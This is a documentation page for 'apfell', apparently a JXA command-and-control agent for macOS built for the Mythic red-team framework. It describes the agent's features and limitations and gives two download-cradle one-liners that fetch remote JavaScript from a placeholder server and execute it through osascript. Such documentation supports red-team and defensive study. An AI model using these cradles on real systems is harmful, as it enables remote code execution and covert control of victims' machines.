 ```yaml
---
title: "apfell"
description: "Apfell is a JavaScript for Automation (JXA) agent for macOS."
---
```


<img
  src="./images/apfell.svg"
  alt="Apfell Logo"
  width="50%"
  style={{ margin: "0 auto" }}
/>
## Summary

Apfell is a JavaScript for Automation (JXA) agent for macOS. 

### Highlighted Agent Features
- Similar to a PowerShell script, JXA execution goes through either a trusted, Apple signed binary (`osascript`) or through any program that imports `OSAKit`. Because JXA is an interpreted language (rather than a compiled one), it requires certain permissions (like JIT exceptions) when dealing with Apple's Notarization.
- JXA has access to almost all ObjectiveC APIs through the ObjC bridge. If at all possible, `apfell` uses API calls instead of command-line execution.
- There are multiple download cradle options:
```bash
1. osascript -l JavaScript -e "eval(ObjC.unwrap( $.NSString.alloc.initWithDataEncoding( $.NSData.dataWithContentsOfURL( $.NSURL.URLWithString('http://serverIPhere/filename')), $.NSUTF8StringEncoding)));"
2. curl http://serverIPHere/filename | osascript -l JavaScript &
```
- The agent uses Objective C API calls to do a full encrypted key exchange with the Mythic server with a combination of AES256 and RSA.


### Important Notes
The entire agent is single threaded due to an ObjectiveC / JXA bridge limitation that I have been unable to figure out. Be careful to not issue shell commands that require user input because you will lose your agent.

The agent cannot connect to self-signed certificates due to a limitation in overriding the NSURL connection settings for cert validation within JXA. 

## Authors
@its_a_feature_


### Special Thanks to These Contributors
- @xorrior
